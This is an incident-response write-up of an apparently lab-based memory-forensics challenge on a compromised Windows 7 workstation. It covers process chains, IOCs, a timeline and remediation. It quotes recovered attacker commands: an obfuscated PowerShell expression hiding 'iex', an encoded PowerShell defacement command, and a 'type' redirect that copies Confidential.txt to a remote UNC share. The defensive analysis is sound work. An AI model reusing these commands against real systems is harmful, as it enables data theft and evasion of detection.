<p align="center">
  
</p>

# Recollection Security Incident Report

> **Category:** Easy  
> **Discipline:** DFIR — Memory Forensics  
> **Primary artifact:** Windows physical memory image `recollection.bin`  
> **Time standard:** UTC

---

## Executive Summary

| Field | Value |
|---|---|
| **Incident ID** | `RECOLLECTION-2022-1219` |
| **Severity** | **High** |
| **Status** | Confirmed compromise |
| **Affected host** | `USER-PC` |
| **Operating system** | Windows 7 SP1 x64 — Build `7601.24214` |
| **Local IP** | `192.168.0.104` |
| **Affected user context** | `user` |
| **Initial access vector** | Not established from the supplied memory image |
| **Malicious executable SHA-256** | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1` |
| **Internal exfiltration target** | `192.168.0.171` |
| **Memory acquisition time** | `2022-12-19 16:07:30 UTC` |
| **Assessment confidence** | High |

Memory analysis confirms attacker-controlled command execution on `USER-PC`. The actor used CMD and PowerShell, placed an obfuscated PowerShell expression in the clipboard, enumerated local accounts, attempted to copy a confidential file to an internal UNC path, and executed a downloaded malicious PE whose filename was its own SHA-256 hash.

The attempted transfer to `192.168.0.171` failed with `The network path was not found`, so successful exfiltration or compromise of that secondary asset is not established. A second suspicious download, `csrsss.exe`, imitated the legitimate Windows process `csrss.exe`. The supplied memory image confirms post-compromise activity but does not establish the original access vector or persistence mechanism.

---

## Artifact Inventory

| Artifact | Type | Evidentiary value |
|---|---|---|
| `recollection.bin` | Windows physical memory image | Primary evidence source for processes, command history, clipboard contents, file objects, network state, and browser-resident data |
| `hashrecollection.png` | Evidence screenshot | SHA-256 integrity hash of the memory image |
| `OSresult.png` | Evidence screenshot | Windows version, architecture, build, and acquisition system time |
| `pslist.png` | Evidence screenshot | Active process inventory and process creation times |
| `psscan.png` | Evidence screenshot | Process-object scan used to corroborate process activity |
| `parentprocess.png` | Evidence screenshot | CMD-to-PowerShell parent-child relationship |
| `obfuscatedcommand.png` | Evidence screenshot | Clipboard and command-history evidence for the obfuscated PowerShell expression |
| `exfiltration.png` | Evidence screenshot | Attempted transfer of `Confidential.txt` to `192.168.0.171` |
| `readmefilecreated.png` | Evidence screenshot | Encoded PowerShell command intended to create `readme.txt` |
| `netuser.png` | Evidence screenshot | Local account enumeration and hostname |
| `locationpasswordtxt.png` | Evidence screenshot | Full path of Edge `ZxcvbnData\3.0.0.0\passwords.txt` |
| `maliciousfileexec.png` | Evidence screenshot | Download directory contents and execution of the SHA-256-named PE |
| `virustotalresult.png` | Evidence screenshot | Malware reputation, hashes, Imphash, and PE creation time |
| `localip.png` | Evidence screenshot | Local network address and active network state |
| `recollectionlogo.png` | Report artwork | Sherlock identification image |

> **Evidence integrity:** The captured memory image was hashed as `A3E2F3A39BEEE513246494604B529C0A318C981148C58EB4A2FB7591ADE786F7` using SHA-256.



---

## Scope and Affected Assets

| Asset | Role | Impact |
|---|---|---|
| `USER-PC` / `192.168.0.104` | Windows 7 workstation | Confirmed attacker command execution and malware execution |
| `user` | Interactive local account | Attacker activity occurred within this logged-on user context |
| `C:\Users\Public\Secret\Confidential.txt` | Sensitive local file | Read as the source of an attempted network transfer |
| `192.168.0.171` | Internal destination referenced by attacker | Targeted for file transfer; successful access is not confirmed |
| `C:\Users\user\Downloads\...cb1.exe` | Downloaded malicious executable | Executed from the user Downloads directory |
| `C:\Users\user\Downloads\csrsss.exe` | Suspicious masquerading executable | Filename imitates legitimate `csrss.exe`; execution not established |
| `C:\Users\Public\Office\readme.txt` | Intended attacker-created file | Creation was attempted through an encoded PowerShell command; command failed |

---

## Incident Narrative

### 1. Memory Acquisition and Host Baseline

The memory image identifies the affected workstation as a 64-bit Windows 7 SP1 system running build `7601.24214`. Volatility reported the system time at acquisition as:

```text
2022-12-19 16:07:30 UTC
```

The host name was recovered as `USER-PC`, and network artifacts identify the workstation address as `192.168.0.104`.





Local account enumeration recovered three accounts:

```text
Administrator
Guest
user
```


### 2. Suspicious CMD and PowerShell Process Chain

Process analysis showed interactive command interpreters running beneath the logged-on desktop session. Relevant processes included:

| PID | PPID | Process | Create time (UTC) |
|---:|---:|---|---|
| `2032` | `1988` | `explorer.exe` | `2022-12-19 15:33:13` |
| `4052` | `2032` | `cmd.exe` | `2022-12-19 15:40:08` |
| `3688` | `2032` | `powershell.exe` | `2022-12-19 15:43:39` |
| `3532` | `4052` | `powershell.exe` | `2022-12-19 15:44:44` |

The most relevant parent-child relationship was:

```text
explorer.exe
└── cmd.exe (PID 4052)
    └── powershell.exe (PID 3532)
```

This confirms that one PowerShell instance was launched as a child of `cmd.exe`.






### 3. Clipboard Obfuscation and PowerShell Execution

The attacker copied the following expression to the Windows clipboard:

```powershell
(gv '*MDR*').naMe[3,11,2]-joIN''
```

Execution of the expression produced:

```text
iex
```

`iex` is the built-in PowerShell alias for `Invoke-Expression`. The construction deliberately obscures the cmdlet name instead of writing it directly.

Recovered command history also showed the same expression being launched through PowerShell:

```powershell
powershell -command "(gv '*MDR*').naMe[3,11,2]-joIN''"
```



### 4. Discovery and Attempted Data Exfiltration

The attacker enumerated local users using:

```cmd
net users
```

The actor then attempted to transfer a sensitive file to another internal address using output redirection:

```cmd
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

The command targeted `192.168.0.171` through a UNC path. The recovered console returned:

```text
The network path was not found.
```

The evidence therefore confirms an **attempted** transfer but does not prove that `Confidential.txt` was successfully written to the remote system.



### 5. Attempted Readme Creation

A Base64-encoded PowerShell command was executed:

```powershell
powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
```

The decoded content was:

```cmd
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
```

The console showed a `CommandNotFoundException`, so creation of the file is not confirmed. The intended file path was:

```text
C:\Users\Public\Office\readme.txt
```



### 6. Malicious Executable Staging and Execution

The Downloads directory contained an executable whose filename was a 64-character hexadecimal value:

```text
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
```

Recovered console history confirms direct execution:

```powershell
.\b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
```

The filename itself equals the sample's SHA-256:

```text
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1
```



VirusTotal metadata for the exact sample showed **61/71** security vendors detecting it as malicious. Relevant metadata included:

| Field | Value |
|---|---|
| **SHA-256** | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1` |
| **Imphash** | `d3b592cd9481e4f053b5362e22d61595` |
| **PE creation time** | `2022-06-22 11:49:04 UTC` |
| **File size** | `420864` bytes |



A second suspicious file was present in the same directory:

```text
csrsss.exe
```

Its name closely mimics the legitimate Windows binary `csrss.exe` by adding an additional `s`. The supplied evidence establishes its presence but does not independently establish execution.

### 7. Browser and User-Data Artifacts

Memory-resident file objects exposed the following Edge path:

```text
\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
```

This path belongs to Edge's `ZxcvbnData` password-strength data and should not be treated by itself as evidence that a credential file was stolen.



Memory analysis also identified the email address:

```text
mafia_code1337@gmail.com
```

The address was associated with suspected social-media login activity and should be retained as an investigation indicator.

### 8. Scope of Secondary Asset Impact

The only internal secondary system directly referenced by attacker command history was:

```text
192.168.0.171
```

The attempted UNC write failed because the network path was not found. No supplied artifact proves successful authentication to, file creation on, or code execution against `192.168.0.171`.

The address should nevertheless be investigated because it was explicitly selected as the destination for the attempted transfer.

---

## Technical Timeline

| Timestamp (UTC) | Event |
|---|---|
| `2022-06-22 11:49:04` | PE compilation/creation timestamp recorded for the later-executed malicious sample |
| `2022-12-19 15:32:28` | `System` process creation time observed in memory |
| `2022-12-19 15:33:13` | `explorer.exe` PID `2032` started for the interactive desktop session |
| `2022-12-19 15:34:29` | Primary `msedge.exe` process PID `2380` started |
| `2022-12-19 15:40:08` | `cmd.exe` PID `4052` started beneath `explorer.exe` |
| `2022-12-19 15:43:39` | `powershell.exe` PID `3688` started beneath `explorer.exe` |
| `2022-12-19 15:44:44` | `powershell.exe` PID `3532` started as a child of `cmd.exe` PID `4052` |
| Before `16:07:30` | Obfuscated `iex` expression present in clipboard and recovered command history |
| Before `16:07:30` | `net users` executed, revealing `Administrator`, `Guest`, and `user` |
| Before `16:07:30` | Attempted transfer of `Confidential.txt` to `\\192.168.0.171\pulice\pass.txt`; network path not found |
| Before `16:07:30` | Encoded PowerShell command attempted creation of `C:\Users\Public\Office\readme.txt`; execution failed |
| Before `16:07:30` | SHA-256-named malicious executable executed from `C:\Users\user\Downloads` |
| `2022-12-19 16:07:30` | Memory image acquisition system time |

> Exact command-execution timestamps were not available in the recovered console history. They are therefore reported only as occurring before memory acquisition rather than assigned unsupported times.

---

## Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| SHA-256 | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1` | Executed malicious PE; also used as the executable filename |
| Imphash | `d3b592cd9481e4f053b5362e22d61595` | Import hash of the malicious PE |
| Filename | `csrsss.exe` | Suspicious file mimicking legitimate `csrss.exe` |
| Email | `mafia_code1337@gmail.com` | Address recovered from memory in suspected social-media login context |
| IPv4 | `192.168.0.171` | Internal destination selected for attempted file transfer |
| IPv4 | `192.168.0.104` | Affected workstation address |
| File path | `C:\Users\Public\Secret\Confidential.txt` | Source file used in the exfiltration attempt |
| File path | `C:\Users\Public\Office\readme.txt` | Intended attacker-created readme file |
| PowerShell | `(gv '*MDR*').naMe[3,11,2]-joIN''` | Obfuscated expression resolving to `iex` / `Invoke-Expression` |
| Command | `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt` | Failed exfiltration attempt |

---

## Attack Classification

| Phase | Observed behavior |
|---|---|
| **Initial Access** | Not established from the supplied memory image |
| **Execution** | CMD and PowerShell execution; downloaded malicious PE executed from `Downloads` |
| **Command Obfuscation** | PowerShell expression concealed the `iex` / `Invoke-Expression` alias |
| **Discovery** | `net users` enumerated local accounts and exposed the workstation hostname |
| **Collection** | `Confidential.txt` was read as the source of a transfer command |
| **Exfiltration** | Attempted UNC/SMB-style transfer to `192.168.0.171`; failed |
| **Impact / Defacement Attempt** | Encoded command attempted to create a `"hacked by mafia"` readme file; command failed |
| **Masquerading** | `csrsss.exe` imitated the legitimate Windows `csrss.exe` filename |
| **Persistence** | Not established |
| **Lateral Movement** | Not established; `192.168.0.171` was targeted as a transfer destination only |

---

## Root Cause

The supplied memory artifact does **not** contain sufficient evidence to determine the original compromise vector. No supported conclusion can be made about whether access resulted from exploitation, stolen credentials, malicious download activity, or another mechanism.

The evidence does establish several conditions that increased the incident impact:

- The workstation was running unsupported Windows 7 SP1.
- Interactive CMD and PowerShell were available to the attacker.
- Executables could be launched directly from the user's Downloads directory.
- A malicious PE was successfully executed without being blocked.
- The attacker could read a file under `C:\Users\Public\Secret`.
- The host attempted to reach another internal asset over a UNC path.

A disk image, Windows event logs, browser history, EDR telemetry, and network logs would be required to determine the initial access path with confidence.

---

## Impact Assessment

| Area | Assessment |
|---|---|
| **Confidentiality** | High potential impact. The attacker accessed `Confidential.txt` for transfer, although successful exfiltration is not proven. |
| **Integrity** | High impact. Untrusted code was executed on the workstation. A separate file-write/defacement attempt was observed but failed. |
| **Availability** | No direct service disruption or destructive action is visible in the supplied memory evidence. |
| **Malware execution** | Confirmed through recovered console history and external reputation metadata. |
| **Persistence** | Not established from the supplied evidence. |
| **Secondary assets** | `192.168.0.171` was targeted, but successful access or compromise is not established. |
| **Overall impact** | Confirmed workstation compromise with malware execution, discovery activity, and attempted data transfer. |

---

## Containment and Eradication Recommendations

### Immediate

1. Isolate `USER-PC` / `192.168.0.104` from the network.
2. Preserve the memory image and acquire a full forensic disk image before remediation.
3. Block and hunt for SHA-256 `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1`.
4. Search endpoints for `csrsss.exe` and the SHA-256-named executable.
5. Review `192.168.0.171` for SMB authentication, share-access, file-creation, and endpoint events around the incident window.
6. Reset credentials associated with the `user` account and review accounts tied to `mafia_code1337@gmail.com` where organizationally relevant.
7. Preserve PowerShell, CMD, browser, firewall, proxy, DNS, and EDR telemetry.

### Eradication and Recovery

1. Rebuild the affected workstation from a trusted image.
2. Retire Windows 7 and migrate the asset to a currently supported operating system.
3. Restore user data only after malware scanning and integrity validation.
4. Review the user's Downloads directory and browser download history for the origin of both suspicious executables.
5. Validate that no additional payloads, scheduled tasks, services, Run keys, WMI persistence, or startup artifacts were created.
6. Perform credential rotation for any secrets accessible from the affected workstation.

### Preventive Controls

- Enforce application control to prevent untrusted binaries from executing from user-writable directories.
- Constrain PowerShell with modern logging, AMSI-capable endpoint controls, and centralized Script Block Logging on supported Windows versions.
- Alert on encoded/obfuscated PowerShell and suspicious parent-child relationships such as `cmd.exe` → `powershell.exe`.
- Monitor for Windows system-binary masquerading such as `csrsss.exe`.
- Restrict SMB access between workstations and sensitive internal systems.
- Apply least-privilege ACLs to sensitive shared/public directories.
- Centralize endpoint telemetry and retain process, command-line, DNS, proxy, and authentication events.
- Remove unsupported operating systems from production or research networks unless strictly isolated.

---

## Conclusion

`USER-PC` was compromised and used for attacker-controlled CMD and PowerShell activity. The actor obfuscated `Invoke-Expression`, enumerated accounts, attempted to transfer a confidential file to `192.168.0.171`, attempted to create a defacement-style readme, and executed a downloaded malicious executable whose filename matched its SHA-256 hash.

The transfer attempt failed and the supplied memory image does not prove compromise of `192.168.0.171`. Initial access and persistence also remain unresolved. The affected workstation should be treated as fully untrusted, rebuilt from a known-good image, and supplemented with disk, endpoint, and network evidence to determine the original entry point and complete the scope assessment.

---

## Annex A — Evidence-to-Finding Matrix

| Finding | Supporting artifact |
|---|---|
| Memory image SHA-256 is `A3E2F3A39BEEE513246494604B529C0A318C981148C58EB4A2FB7591ADE786F7` | `hashrecollection.png` |
| Host ran Windows 7 SP1 x64 build `7601.24214` | `OSresult.png` |
| Memory acquisition system time was `2022-12-19 16:07:30 UTC` | `OSresult.png` |
| Affected workstation address was `192.168.0.104` | `localip.png` |
| Hostname was `USER-PC` | `netuser.png` |
| Local accounts were `Administrator`, `Guest`, and `user` | `netuser.png` |
| CMD PID `4052` spawned PowerShell PID `3532` | `parentprocess.png`, `pslist.png`, `psscan.png` |
| Clipboard contained an obfuscated expression resolving to `iex` | `obfuscatedcommand.png` |
| `iex` corresponds to `Invoke-Expression` | Recovered PowerShell output in `obfuscatedcommand.png` |
| `Confidential.txt` was used as the source of an attempted remote transfer | `exfiltration.png` |
| Transfer destination was `192.168.0.171` and the network path was not found | `exfiltration.png` |
| Encoded PowerShell was intended to create `C:\Users\Public\Office\readme.txt` | `readmefilecreated.png` |
| SHA-256-named executable was launched from the Downloads directory | `maliciousfileexec.png` |
| Malicious sample SHA-256 and Imphash were identified | `virustotalresult.png` |
| Sample PE creation time was `2022-06-22 11:49:04 UTC` | `virustotalresult.png` |
| `csrsss.exe` was present in the Downloads directory | `maliciousfileexec.png` |
| Edge file path ended in `ZxcvbnData\3.0.0.0\passwords.txt` | `locationpasswordtxt.png` |
